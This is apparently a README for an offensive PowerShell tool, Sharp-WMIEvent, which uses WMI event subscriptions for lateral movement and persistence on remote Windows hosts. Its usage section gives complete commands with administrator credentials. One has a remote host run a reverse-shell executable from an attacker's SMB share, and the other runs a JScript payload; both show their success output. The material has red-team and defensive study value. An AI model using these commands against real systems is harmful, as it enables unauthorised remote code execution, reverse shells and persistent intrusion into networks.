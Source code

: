 # Sharp-WMIEvent

## Synopsis

The script realizes intranet lateral movement and permission persistence through WMI event subscription.

## Description

WMI provides a robust event system that can be used to respond to almost any event that occurs on the operating system. For example, when a process is created, a specific action can be performed by subscribing to WMI events. Among them, the specific conditions for triggering an event are called "Event Filter", such as user login, new process creation, etc.; the response to the occurrence of a specified event is called "Event Consumer", Including a series of specific operations, such as running scripts, recording logs, sending emails, etc. When deploying event subscriptions, you need to build Filter and Consumer separately and bind them together. For details, please refer to the relevant documents provided by Microsoft.

Hackers can use the capabilities of WMI to deploy permanent event subscriptions on remote hosts and execute arbitrary code or other actions when that event occurs. ActiveScriptEventConsumer and CommandLineEventConsumer in the event consumption class are mainly used. These two Event Consumers can execute any payload on a remote host in a fileless manner. This technique is mainly used to complete permissions persistence on the target system, and can also be used for lateral movement, and requires user credentials that provide administrator permissions on the remote host. For more details, please read the relevant articles in Link by yourself.

## Usage

Execute attack payload in SMB share.

```powershell
PS C:\Users\Administrator> Import-Module .\Sharp-WMIEvent.ps1

PS C:\Users\Administrator> Sharp-WMIEvent -ConsumerType Command -ComputerName 10.10.10.19 -Domain Domain.com -Username Administrator -Password Admin@123 -Command "C:\Windows\System32\cmd.exe /c \\IP\evilsmb\reverse_tcp.exe" -FilterName 1waawd2 -ConsumerName Test
[+] Creating The WMI Event Filter
[+] Creating The WMI Event Consumer
[+] Creating The WMI Event Filter And Event Consumer Binding
[+] [+] Triggering The Target Process
[+] Cleaning Up The Event Subscriptions
```

Execute the attack payload in the local payload.js script file.

```powershell
PS C:\Users\Administrator>Import-Module .\Sharp-WMIEvent.ps1

PS C:\Users\Administrator>Sharp-WMIEvent -ConsumerType JScript -ComputerName 10.10.10.19 -Domain Domain.com -Username Administrator -Password Admin@123 -ScriptPath C:\Folder\Sharp-WMIEvent\payload.js -FilterName Test -ConsumerName Test
[+] Creating The WMI Event Filter
[+] Creating The WMI Event Consumer
[+] Creating The WMI Event Filter And Event Consumer Binding
[+] [+] Triggering The Target Process
[+] Cleaning Up The Event Subscriptions
```

## Link

https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/

https://github.com/lengjibo/RedTeamTools/blob/master/windows/WMIShell